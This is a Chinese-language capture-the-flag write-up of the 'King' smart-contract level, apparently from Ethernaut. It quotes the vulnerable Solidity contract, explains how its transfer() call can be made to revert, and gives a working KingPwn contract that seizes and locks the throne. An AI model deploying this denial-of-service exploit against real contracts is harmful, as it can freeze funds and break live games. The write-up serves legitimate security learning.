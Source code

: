 # King


## 要求

```
下面的合约表示了一个很简单的游戏: 任何一个发送了高于目前价格的人将成为新的国王. 在这个情况下, 上一个国王将会获得新的出价, 这样可以赚得一些以太币. 看起来像是庞氏骗局.

这么有趣的游戏, 你的目标是攻破他.

当你提交实例给关卡时, 关卡会重新申明王位. 你需要阻止他重获王位来通过这一关.
```

## 代码
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## 分析

按照他这个写法，应该是在最后提交实例的时候，还会进入到 `receive`函数。
但是，但是，他调用了这个函数`payable(king).transfer(msg.value);`.

使用的`transfer`.transfer有一个问题，就是传输出错的时候，会调用`revert`。
也就说，只要实现`receive`或者`fallback`函数，他就没办法把钱转移回来。

## pwn

首先查看一下当前的prize:
```
await contract.prize().then(v=>v.toString())
'1000000000000000'
```
那我们只要被这个高就好了，

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingPwn{
    
    constructor()payable {

    }

    function pwn(address target)public {
        require(address(this).balance > 1000000000000000);
        address(target).call{value:address(this).balance}("");

    }
}
```
